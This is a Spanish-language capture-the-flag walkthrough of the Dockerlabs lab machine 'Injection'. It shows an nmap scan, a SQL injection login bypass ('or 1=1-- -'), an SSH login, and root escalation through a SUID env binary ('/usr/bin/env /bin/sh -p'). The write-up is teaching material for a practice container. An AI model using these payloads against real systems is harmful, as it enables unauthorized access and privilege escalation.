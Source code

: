 

# Writeup: Injection - Dockerlabs

Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma **Dockerlabs** llamada **"Injection"**.  
A continuación, podrás ver paso a paso cómo se resuelve. ¡Que te diviertas! 🚀  

---

## **Ecaneo de Puertos con Nmap**
Hacemos uso de `nmap` con la IP proporcionada por Dockerlabs para ver los puertos abiertos:  


```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
 
Ahora sabemos que el **puerto 80 (HTTP)** y el **puerto 22 (SSH)** están abiertos.

---

## **Acceso a la Aplicación Web**
Nos dirigimos a poner la IP en el navegador.






  

Como la máquina nos habla de una **inyección** (como su propio nombre lo dice), intentamos hacer una **SQL Injection (SQLi)** con el clásico payload:  

```
'or 1=1-- -
```

**Explicación:**  
Como `1=1` siempre es verdadero, la consulta devuelve todos los registros, permitiendo el acceso sin conocer la contraseña (ponemos cualquier contraseña).  

¡Sorpresa! Hemos entrado.  

---

## **Acceso a SSH**
Sabemos que el **puerto 22 (SSH)** está abierto, así que vamos a intentar conectarnos.  

Ejecutamos el siguiente comando:  

```bash
sudo ssh 172.17.0.2 -l dylan
```

**Explicación de los parámetros:**  
- `sudo` → Ejecuta el comando con permisos de superusuario (root).  
- `ssh` → Inicia una conexión SSH (Secure Shell) para acceder a otro sistema de forma segura.  
- `172.17.0.2` → Es la dirección IP del servidor al que queremos conectarnos.  
- `-l dylan` → Especifica el usuario (`dylan`) con el que nos conectaremos.  

También podemos usar esta otra forma:  

```bash
sudo ssh dylan@172.17.0.2
```

---

## **Escalada de Privilegios**
Ahora que somos **dylan**, intentaremos hacer **escalada de privilegios** hasta ser **superusuario (root)**.  

Ejecutamos en la terminal:  

```bash
find / -perm -4000 -user root 2>/dev/null
```

**Explicación del comando:**  
- `find /` → Busca archivos en todo el sistema (`/` es la raíz).  
- `-perm -4000` → Filtra archivos con permiso **SUID** (4000 en octal), lo que permite que el archivo se ejecute con permisos de su propietario (en este caso, root).  
- `-user root` → Filtra para que solo muestre archivos cuyo dueño sea **root**.  
- `2>/dev/null` → Redirige los errores (`stderr`, descriptor `2`) a `/dev/null`, ocultando mensajes de «Permiso denegado».  

### **Archivo interesante encontrado: `/usr/bin/env`**
El binario **env** a veces permite ejecutar comandos como **root**.  
Otros binarios sospechosos suelen ser: `find`, `bash`, `vim`, `less`, `awk`, etc.  

---

## **Uso de GTFOBins para Escalada**
Buscamos el binario **env** en [GTFOBins](https://gtfobins.github.io/) para ver si tiene técnicas conocidas de escalada.  

Encontramos que podemos ejecutar:  

```bash
/usr/bin/env /bin/sh -p
```

¡Y listo! Ahora verificamos con:  

```
whoami
```

**Somos root. Máquina resuelta.**
